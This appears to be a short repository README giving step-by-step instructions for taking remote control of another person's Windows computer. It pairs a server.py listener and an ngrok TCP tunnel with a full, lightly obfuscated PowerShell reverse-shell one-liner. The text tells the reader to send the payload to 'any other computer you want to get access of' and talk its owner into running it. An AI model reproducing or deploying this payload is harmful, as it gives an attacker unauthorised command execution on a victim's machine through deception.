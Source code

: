 install and setup chocolately on your pc 

Run this python code first (server.py)

then open cmd and write tcp install chocolately you will get a 5 digit code

put that code in this pay load 

$client = New-O'b'ject System.Net.Sockets.TCPClient('0.tcp.in.ngrok.io',**YOUR_CODE**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

then send this to any other computer you want to get access of 

ask him to run that payload on powershell

after that check output of server.py

